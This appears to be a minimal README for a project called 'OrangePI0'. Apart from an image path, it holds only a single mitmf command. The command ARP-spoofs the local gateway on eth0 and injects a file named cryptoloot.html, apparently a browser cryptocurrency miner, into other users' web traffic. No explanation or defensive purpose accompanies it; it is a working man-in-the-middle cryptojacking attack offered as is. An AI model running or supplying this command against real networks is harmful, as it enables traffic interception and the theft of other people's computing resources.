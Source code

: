# OrangePI0
mitmf --inject --html-file /root/OrangePI0/cryptoloot.html --spoof --arp --gateway 192.168.0.1 -i eth0

